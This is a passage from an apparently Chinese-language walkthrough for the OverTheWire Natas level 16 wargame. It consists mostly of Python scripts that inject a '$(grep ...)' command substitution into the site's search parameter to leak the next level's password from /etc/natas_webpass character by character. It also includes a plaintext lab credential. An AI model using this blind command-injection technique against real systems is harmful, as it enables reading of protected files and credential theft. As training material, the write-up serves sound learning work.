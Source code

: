 ```python
        result += i
        print(result)
# bhjkoqsvwCEFHJLNOT05789
```

得到`/etc/natas_webpass/natas16` 中出现的字符集为

```plaintext
abdglnpqrwxyzABCFHIJNORSTUZ0125789
```

然后接下来最困难的一步，就是确认中间已知部分，至少2字符长度，这样才可以建立逐字符盲注

下面这个脚本跑一部分即可，只需要一个看得顺眼的就行

```python
import itertools
import requests
from requests.auth import HTTPBasicAuth

dics = "bhjkoqsvwCEFHJLNOT05789"
combinations = ["".join(pair) for pair in itertools.product(dics, repeat=2)]
result = []

for i in combinations:
    print(i)
    req = requests.post(
        f"http://natas16.natas.labs.overthewire.org/index.php?needle=$(grep {i} /etc/natas_webpass/natas17)Africans&submit=Search",
        auth=HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"),
    )

    res = req.text.split("Output:")[1].split("<div")[0].strip().split("\n")[1:-1]
    if res == []:
        result.append(i)
        print(result)
# bo
```

已经确定`bo`位于`/etc/natas_webpass/natas16` 之中之后，先向后进行扫描

```python
import requests
from requests.auth import HTTPBasicAuth

dics = "bhjkoqsvwCEFHJLNOT05789"
# combinations = ["".join(pair) for pair in itertools.product(dics, repeat=2)]
result = "bo"

while True:
    end_flag = 0
    for i in dics:
        print(i)
        req = requests.post(
            f"http://natas16.natas.labs.overthewire.org/index.php?needle=$(grep {result+i} /etc/natas_webpass/natas17)Africans&submit=Search",
            auth=HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"),
        )

        res = req.text.split("Output:")[1].split("<div")[0].strip().split("\n")[1:-1]
        if res == []:
            result += i
            print(result)
            break
        else:
            end_flag += 1
    if end_flag == len(dics):
```